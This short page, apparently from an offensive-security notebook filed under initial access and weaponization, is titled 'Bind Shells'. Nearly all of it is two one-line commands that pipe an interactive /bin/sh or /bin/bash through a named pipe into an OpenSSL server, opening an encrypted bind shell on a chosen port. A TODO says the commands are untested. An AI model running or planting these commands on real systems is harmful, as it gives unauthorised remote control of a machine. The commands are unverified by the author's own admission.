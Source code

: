 # Bind Shells

TODO: Modify to ensure it works

Refer to this [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Linux/Code Execution/OpenSSL/Manual#^b06d28|section]] for secure communcation on the client side (target).

```
mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>; rm /tmp/f

mkfifo /tmp/f; /bin/bash -i < /tmp/f 2>&1 | openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>; rm /tmp/f
```